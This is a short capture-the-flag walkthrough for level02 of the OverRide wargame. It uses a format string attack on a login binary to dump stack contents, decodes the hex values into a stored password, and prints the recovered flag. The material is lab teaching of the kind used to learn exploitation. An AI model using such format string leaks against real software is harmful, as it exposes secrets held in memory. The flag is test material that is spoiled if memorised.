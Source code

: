 # level02 walkthrough

## the binary
``` shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: admin
--[ Password: admin
*****************************************
admin does not have access!
```

## methodology
- format string attack

As the <code>main</code> function uses <code>print</code> to output raw array data, we can leverage it to display the variables stored on the stack.
``` shell
level02@OverRide:~$ python /tmp/format_string.py
Sequence 0x7fffffffe3d0 found on stack position 1
Sequence 0x2a2a2a2a2a2a2a2a found on stack position 4
Sequence 0x2a2a2a2a2a2a2a2a found on stack position 5
Sequence 0x7fffffffe5c8 found on stack position 6
Sequence 0x1f7ff9a08 found on stack position 7
Sequence 0x100000000 found on stack position 20
Sequence 0x756e505234376848 found on stack position 22
Sequence 0x45414a3561733951 found on stack position 23
Sequence 0x377a7143574e6758 found on stack position 24
Sequence 0x354a35686e475873 found on stack position 25
Sequence 0x48336750664b394d found on stack position 26
Sequence 0x7024383225 found on stack position 28
Sequence 0x2900000000 found on stack position 40
Sequence 0x602010 found on stack position 41
```
Positions 22 to 26 include hex-encoded sequences that reveal the password after hex-decoding, reversing the endianness, and concatenating.

## flag
``` shell
level02@OverRide:~$ python /tmp/decode.py
flag: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
